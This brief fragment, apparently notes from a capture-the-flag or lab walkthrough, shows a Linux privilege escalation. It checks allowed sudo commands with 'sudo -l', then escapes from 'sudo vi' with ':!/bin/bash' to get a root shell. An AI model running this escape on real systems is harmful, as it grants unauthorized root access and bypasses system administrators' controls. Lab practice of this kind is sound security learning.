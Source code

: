 see what we can run with sudo
sudo -l

we can use the vi editor to spawn a root shell
sudo vi test
:!/bin/bash

then go to root file ls-al